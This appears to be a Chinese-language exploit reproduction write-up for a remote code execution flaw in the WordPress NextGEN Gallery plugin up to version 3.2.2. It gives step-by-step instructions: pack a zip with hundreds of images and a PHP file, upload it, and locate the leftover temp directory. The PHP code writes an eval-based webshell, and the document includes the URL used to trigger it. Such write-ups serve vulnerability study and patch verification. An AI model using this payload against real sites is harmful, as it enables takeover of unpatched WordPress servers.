# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

### 一、漏洞简介

WordPress插件NextGEN Gallery <= 3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

### 二、漏洞影响

### 三、复现过程

**第1步：制作Zip压缩包**

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：


```php
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?>
```

**第2步：上传zip压缩包**

点击“Add Gallery / Images”然后上传zip压缩包。

![](images/15894208502623.png)


**第3步：查看临时目录**

点击“import folder”，再点击“uploads”即可看到解压的临时目录。

![](images/15894208595976.png)


**第4步：生成webshell**

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。


```
http://url/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php
```

![](images/15894208785354.png)


![](images/15894208823522.png)
